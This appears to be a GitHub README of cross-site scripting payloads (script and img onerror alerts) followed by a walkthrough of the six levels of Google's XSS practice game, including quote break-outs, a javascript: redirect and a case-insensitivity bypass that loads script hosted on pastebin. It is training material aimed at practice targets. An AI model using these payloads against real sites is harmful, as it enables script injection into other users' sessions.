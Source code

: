 # Alert
```js
<script>alert("nu11secur1ty_is_here");</script>

<script>alert("Hello");</script>
```
# Image Hidden
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("Hidden scripted image.");</script>
```
# Image

```js
<img+src="https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp">
```

# Test 1
***The point of view***: **find POST, GET or INPUT and exploit them**

```url
https://xss-game.appspot.com/level1
```
- - Level 1

This is the most obvious and easiest one. Just insert following code and you're done:
```js
<script>alert(1)</script>
```
-------------------------------------------------------------------
- - Level 2

Since the `script` won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use `img` tags along with the `onerror` attributes. Here you go:
```js
<img src="http://inexist.ent" onerror="javascript:alert(1)"/>

-----------------------------

<img src="http://inexist.ent" onerror="javascript:alert(01100110011011110111001000100000011001100110100101111000001000000110100101101101011011010110010101100100011010010110000101110100011001010110110001111001)"/>

------------------------------

<img src="http://inexist.ent" onerror="javascript:alert(111)"/>
```
--------------------------------------------------------------------
- - Level 3

Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see `index.html:`
```html
[...]
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
[...]
```
As you see the `num` parameter is used to generate the `img` tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the `onerror` attribute to insert JS. Insert this into the URL address bar and you'll get your `alert()`:

- - Exploit
```url
https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
```
---------------------------------------------------------------
- - Level 4

This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting `https://xss-game.appspot.com/level4/frame?timer='` showed me following output:

```js
SyntaxError: unterminated string literal

startTimer(''');
```

Obviously there is again a way to escape the function and append the alert() call. I have tried several things:

- https://xss-game.appspot.com/level4/frame?timer=');

```js
   SyntaxError: unterminated string literal

    startTimer('')');
```

- https://xss-game.appspot.com/level4/frame?timer=');

```js
   SyntaxError: unterminated string literal


    startTimer('')');
```

And then I've decided to use some URL encoding: `%3B` represents the semi-colon.

- https://xss-game.appspot.com/level4/frame?timer=')%3B

```js
   SyntaxError: unterminated string literal


    startTimer('');');
```

Aha.. There you go! We can terminate the call and insert other ones. The final request:

- https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('

which resulted in


```js
startTimer('');alert(1);var b=('');
```

Boom: Nice one!

----------------------------------------------------------------------


- - Level 5

This one was quite easy. On the first page you can see a link: `https://xss-game.appspot.com/level5/frame/signup?next=confirm`. Now let's have a look how this `next` parameter is used in `confirm.html`:

```js
[...]
<script>
      setTimeout(function() { window.location = '{{ next }}'; }, 5000);
</script>
[...]
```

So the window.location is set based on the `next` parameter. This is a typical case for DOM based XSS. Besides that we have in `signup.html`:

```js
[...]
<br><br>
    <a href="{{ next }}">Next >></a>
</body>
[...]
```

Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
- Insert your Mail
- Click Next >>
- Voila!

-------------------------------------------------------------------------------

- - Level 6

This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

```js
[...]
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
[...]
```
Afterwards the text after the hash is used as the scripts src:

```js
// Load this awesome gadget
scriptEl.src = url;
```

Have you noticed something about the regexp? No?! Seriously not? Ok. It's not case-sensitive. You can escape it by using hTTps or any other combination. So the `final PoC`:

- https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0

# Conclusion
This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

#####################################################################################

# test 2
```
http://testphp.vulnweb.com/
```
# find POST, GET or INPUT and exploit them

- - example:
```html
<form action="" method="GET">
  <input id="query" name="query" value="Enter query here..." onfocus="this.value=''">
  <input id="button" type="submit" value="Search">
</form>
```

- - MOre: https://owasp.org/www-community/xss-filter-evasion-cheatsheet
